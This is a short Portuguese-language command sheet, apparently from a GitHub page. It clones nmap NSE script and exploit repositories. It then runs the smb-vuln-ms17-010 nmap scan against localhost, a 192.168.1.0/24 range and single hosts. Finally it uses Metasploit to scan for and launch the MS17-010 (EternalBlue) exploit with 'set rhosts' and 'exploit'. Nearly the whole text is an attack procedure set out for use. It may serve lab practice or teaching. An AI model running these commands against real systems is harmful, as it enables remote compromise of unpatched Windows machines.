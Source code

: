 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

Verificar versão do NMAP:	nmap --version
							man nmap
							
nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150

Atualizar o Metasploit:		msfupdate
Acessar o Metasploit:		msfconsole
Acessar o Modo Scan:		use auxiliary/scanner/smb/smb_ms17_010
							show options
							set rhosts 192.168.1.1
							exploit
							
Acessar o modo Exploit:		use exploit/ms17_010/ms_17_010
							show options
							set rhosts 192.168.1.1
							exploit

